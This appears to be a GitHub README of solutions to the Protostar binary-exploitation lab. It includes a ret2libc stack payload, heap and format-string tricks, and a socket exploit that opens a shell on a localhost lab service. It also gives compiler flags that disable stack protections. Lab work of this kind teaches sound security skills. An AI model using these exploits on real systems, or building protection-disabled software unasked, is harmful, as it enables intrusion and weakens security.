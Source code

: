 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
```
./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```
- [x] heap2
```
exploiting use-after-free bug
```
- [x] heap3
```
need to create a fake chunk and unlink it explictly
then forward & backward pointer is abused to write change the PLT

hence executing the winner function
```

## Network

- [x] net0
```
echo -ne "`cat -`" | nc 127.0.0.1 2999

to enter the little endian string
```
- [x] net1
- [x] net2

## Final
- [x] final0
```
import struct
import socket
import telnetlib

HOST='127.0.0.1'
PORT=2995

padding = "A"*500+"\x00"+"aaaabbbbccccddddeeeeffffgggghhh"
execv = struct.pack("I",0x08048c0c)
execv_ret = "AAAA"
execv_param =  struct.pack("I",1176511+0xb7e97000)#bin/sh address

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))


exploit = padding+execv+execv_ret+execv_param+"\x00"*8

s.send(exploit+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
- [ ] final1
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
